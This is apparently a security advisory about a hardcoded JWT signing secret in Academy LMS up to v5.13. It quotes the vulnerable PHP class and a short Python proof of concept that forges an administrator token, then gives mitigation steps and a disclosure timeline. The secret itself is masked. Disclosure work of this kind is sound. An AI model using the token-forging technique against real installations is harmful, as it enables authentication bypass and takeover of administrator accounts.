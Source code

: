 ```yaml
---
title: "Critical JWT Secret Vulnerability in Academy LMS v5.13"
date: 2025-07-20
tags: ["security", "jwt", "academy-lms", "vulnerability"]
categories: ["Security Research"]
draft: false
url: "/academy-lms-jwt-secret-7k9m2x4p8q/"
_build:
  list: false
  render: true
  publishResources: true
sitemap:
  disable: true
---
```


## Overview

A critical security vulnerability has been discovered in Academy LMS versions up to and including 5.13, where the application uses a hardcoded default JWT secret for token authentication.

## Technical Details

**CVE ID:** Pending Assignment  
**CVSS Score:** 9.3 (Critical)  
**Affected Versions:** Academy LMS ≤ v5.13  
**Vulnerability Type:** Authentication Bypass via Hardcoded Credentials  

### Affected Component
- File: `lms/application/libraries/TokenHandler.php`
- Default Secret: `academy-lms-xxxxxxxxxxx` - masked to protect users who still use the secret

### Vulnerability Description

Academy LMS uses a predictable, hardcoded JWT secret "academy-lms-xxxxxxxx" for signing authentication tokens with the HS256 algorithm. This secret is the same across all default installations of Academy LMS, making it trivial for attackers to forge valid JWT tokens.

### Vulnerable Source Code

```php
// From lms/application/libraries/TokenHandler.php:6
class TokenHandler
{
   //////////The function generate token/////////////
   PRIVATE $key = "academy-lms-xxxxxxxx";
   public function GenerateToken($data)
   {
       $jwt = JWT::encode($data, $this->key);
       return $jwt;
   }

  //////This function decode the token////////////////////
   public function DecodeToken($token)
   {
       $decoded = JWT::decode($token, $this->key, array('HS256'));
       $decodedData = (array) $decoded;
       return $decodedData;
   }
}
```

## Impact

An attacker can:
1. Purchase the Academy LMS template to obtain the source code and discover the default secret
2. Generate valid JWT tokens for any user account, including administrators
3. Completely bypass authentication mechanisms
4. Achieve privilege escalation to administrative access
5. Access sensitive user data and system functions

## Proof of Concept

```python
import jwt
import json

# Known default secret from Academy LMS
secret = "academy-lms-xxxxxx"

# Forge admin token
payload = {
    "user_id": "1",
    "role_id": "1",
    "is_admin": True,
    "email": "admin@example.com"
}

# Generate malicious JWT
forged_token = jwt.encode(payload, secret, algorithm='HS256')
print(f"Forged Admin Token: {forged_token}")
```

## Affected Endpoints

All API endpoints that rely on JWT authentication are vulnerable, including:
- User authentication endpoints
- Course management APIs
- Administrative functions
- Payment processing APIs

## Mitigation

### Immediate Actions
1. **Change the JWT secret immediately** to a cryptographically secure random value
2. **Invalidate all existing JWT tokens** by changing the secret
3. **Force all users to re-authenticate**

### Recommended Implementation
```php
// Generate secure random secret
$jwt_secret = bin2hex(random_bytes(32)); // 64-character hex string

// Store in environment variables or secure config
// Never hardcode in source code
```

### Best Practices
- Use environment variables for secrets
- Implement JWT secret rotation
- Consider using RS256 with public/private key pairs
- Implement proper token expiration policies

## Timeline

- **Discovery:** July 2025 (During white box penetration testing)
- **Vendor Notification:** July 20, 2025 (Responsible disclosure to Creativeitem/Academy LMS team)
- **CVE Request Submitted:** July 20, 2025 (CVE number requested from MITRE)
- **Vendor Response:** Awaiting response from vendor
- **Public Disclosure:** July 20, 2025

*This vulnerability was discovered during a white box penetration test. Given that Academy LMS is a widely-used commercial template with many installations across different organizations, we decided to report this as a responsible disclosure to help protect all users of this platform.*

*This timeline will be updated accordingly as the responsible disclosure process progresses.*

## References

- [Academy LMS Official Website](https://codecanyon.net/item/academy-learning-management-system/22703468)
- [JWT Security Best Practices](https://tools.ietf.org/html/rfc7519)

## Credit

This vulnerability was discovered and responsibly disclosed by the security research team at suryadina.com.

---
*This post is part of our ongoing security research into popular Learning Management Systems. For more security insights, visit [https://suryadina.com](https://suryadina.com).*